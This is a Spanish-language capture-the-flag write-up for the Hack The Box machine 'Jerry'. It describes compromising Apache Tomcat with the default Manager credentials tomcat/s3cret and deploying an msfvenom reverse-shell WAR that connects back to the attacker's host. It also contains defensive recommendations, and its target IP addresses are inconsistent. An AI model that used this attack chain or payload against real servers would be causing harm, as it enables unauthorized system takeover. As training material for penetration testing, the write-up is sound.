





# Jerry

## 🧾 Overview

* Plataforma: Hack The Box
* Dificultad: Easy
* Sistema: Windows
* Dirección IP: 10.129.136.9
* Entorno: Apache Tomcat / Windows
* Vector principal: Credenciales por defecto en Tomcat Manager + despliegue de WAR malicioso

Este documento describe el proceso de compromiso de la máquina Jerry, un escenario orientado a la explotación de una mala configuración en Apache Tomcat.

A lo largo del análisis se sigue una metodología sencilla basada en reconocimiento, enumeración del servicio web, acceso al panel de administración de Tomcat y despliegue de una aplicación WAR maliciosa para obtener ejecución remota de comandos en el sistema.

---

## 🎯 Objetivo

El objetivo de la máquina consiste en identificar el servicio expuesto, acceder al panel de administración de Tomcat mediante credenciales débiles o por defecto, desplegar un payload malicioso y obtener acceso al sistema con privilegios elevados.

---

## 🌐 Reconocimiento

Como primer paso, verificamos la conectividad con la máquina objetivo.

```bash
ping -c 1 10.129.136.9
```

La respuesta confirmó que el host estaba activo y accesible desde nuestra posición.

A continuación, realizamos un escaneo inicial con Nmap para identificar los puertos abiertos.

```bash
 sudo nmap -p- --open --min-rate 5000 -n -Pn 10.129.136.9 -oG allPorts
```

El escaneo mostró un único puerto relevante expuesto:

* Puerto 8080: HTTP / Apache Tomcat

Posteriormente, lanzamos un escaneo más detallado sobre el puerto identificado.

```bash
nmap -p 8080 -sCV 10.129.136.9 -oN target
```

---

### Resultados relevantes

El puerto `8080` mostraba un servicio web correspondiente a **Apache Tomcat**.

Al acceder desde el navegador:

    http://10.10.10.95:8080

se cargaba la página por defecto de Apache Tomcat.

La presencia de esta página indicaba que el servidor Tomcat estaba operativo y que era necesario revisar las rutas administrativas expuestas, especialmente el panel **Tomcat Manager**.

---

## 🔎 Enumeración

Desde la página principal de Apache Tomcat se identifican varias rutas interesantes, entre ellas:

    /manager/html
    /host-manager/html

Al acceder a `/manager/html`, el servidor solicita autenticación HTTP Basic.

    http://10.10.10.95:8080/manager/html


Este punto es especialmente relevante, ya que Tomcat Manager permite desplegar aplicaciones web en formato `.war`. Si se consigue acceso al panel con un usuario autorizado, es posible subir una aplicación maliciosa y lograr ejecución remota de comandos.

---

## Acceso a Tomcat Manager

Durante la fase de enumeración, se probaron credenciales comunes y por defecto de Apache Tomcat.

Una combinación válida fue:

    Usuario: tomcat
    Contraseña: s3cret

> También podemos encontrar estas credenciales al provocar un mensaje de error:
>
>

Con estas credenciales se obtuvo acceso al panel de administración de Tomcat Manager.



Este acceso supone un riesgo crítico, ya que el panel permite desplegar aplicaciones directamente sobre el servidor.

---

## Análisis de la vulnerabilidad

La vulnerabilidad principal de Jerry no se basa en un exploit complejo, sino en una mala configuración del servicio.

El servidor Tomcat expone su panel de administración y permite el acceso mediante credenciales débiles o por defecto. Una vez autenticado, el atacante puede desplegar una aplicación WAR maliciosa.

Un archivo `.war` es un paquete utilizado para distribuir aplicaciones Java en servidores como Apache Tomcat. Si dentro de ese paquete se incluye una JSP maliciosa, Tomcat la desplegará y permitirá su ejecución desde el navegador.

En este caso, el despliegue de una WAR maliciosa permite obtener ejecución remota de comandos sobre el sistema Windows.

---

## 💥 Explotación

Para obtener una reverse shell, generamos un payload en formato WAR con `msfvenom`.

    msfvenom -p java/shell_reverse_tcp LHOST=10.10.15.121 LPORT=4444 -f war -o shell.war

Donde:

* `LHOST` corresponde a nuestra IP de VPN.
* `LPORT` corresponde al puerto donde estaremos escuchando.
* `-f war` genera el payload en formato WAR.
* `-o shell.war` define el nombre del archivo resultante.

A continuación, levantamos un listener con `nc`. Además nos ayudaremos de `rlwrap` para tener más control sobre la consola una vez que consigamos la conexión.

```bash
rlwrap -cAr nc -lvnp 4444
```

Con el listener preparado, volvemos al panel de Tomcat Manager y utilizamos la opción de despliegue de aplicaciones WAR.



Desde la sección **WAR file to deploy**, subimos el archivo generado:

    shell.war

Una vez desplegada la aplicación, Tomcat la muestra en el listado de aplicaciones disponibles.

Para ejecutar el payload, accedemos a la ruta correspondiente desde el navegador:

    http://10.10.10.95:8080/shell/



Tras cargar la ruta, recibimos una sesión en NetCat.



---


## 🔐 Escalada de privilegios

En esta máquina no fue necesario realizar una escalada de privilegios adicional.

El servicio Apache Tomcat se estaba ejecutando con privilegios elevados en el sistema, por lo que el payload desplegado desde Tomcat Manager heredó esos privilegios y proporcionó acceso directamente como `NT AUTHORITY\SYSTEM`.

Esto demuestra el impacto que puede tener ejecutar servicios expuestos con privilegios excesivos.

---


## 🧠 Lecciones aprendidas

* La exposición de paneles administrativos a la red aumenta considerablemente la superficie de ataque.
* Las credenciales por defecto o débiles pueden permitir el compromiso completo de un sistema.
* Apache Tomcat Manager permite desplegar aplicaciones WAR, por lo que un acceso no autorizado al panel puede derivar en ejecución remota de comandos.
* No siempre es necesario explotar una vulnerabilidad compleja; una mala configuración puede ser suficiente para comprometer una máquina.
* Ejecutar servicios web con privilegios elevados puede provocar que una explotación inicial derive directamente en acceso como `SYSTEM`.
* La enumeración manual de paneles administrativos sigue siendo una fase clave en pruebas de intrusión.

---

## 🛡️ Perspectiva defensiva

* No exponer Tomcat Manager públicamente salvo que sea estrictamente necesario.
* Restringir el acceso al panel de administración mediante firewall, VPN o listas de control de acceso.
* Eliminar credenciales por defecto inmediatamente después de la instalación.
* Utilizar contraseñas robustas y únicas para usuarios administrativos.
* Aplicar el principio de mínimo privilegio al usuario que ejecuta Apache Tomcat.
* Deshabilitar el despliegue de aplicaciones desde interfaces administrativas si no es necesario.
* Monitorizar subidas de archivos WAR y accesos a rutas administrativas.
* Revisar periódicamente la configuración de usuarios y roles definidos en `tomcat-users.xml`.

---

## 🧰 Herramientas utilizadas

* Nmap
* Navegador web
* Apache Tomcat Manager
* msfvenom
* nc

---

## ✅ Conclusión

Jerry es una máquina sencilla pero muy útil para comprender el impacto de una mala configuración en un servicio expuesto.

La cadena de ataque es directa: durante el reconocimiento se identifica Apache Tomcat en el puerto 8080, posteriormente se accede al panel Tomcat Manager mediante credenciales débiles y finalmente se despliega un archivo WAR malicioso para obtener ejecución remota de comandos.

El punto más importante de esta máquina no es la complejidad técnica, sino la gravedad de mantener servicios administrativos expuestos y protegidos con credenciales inseguras.

Desde una perspectiva defensiva, Jerry refuerza tres ideas fundamentales: eliminar credenciales por defecto, limitar el acceso a paneles administrativos y ejecutar servicios con los mínimos privilegios necesarios.

Aunque se trata de una máquina Easy, representa un caso muy realista de cómo una configuración insegura puede derivar en compromiso total del sistema.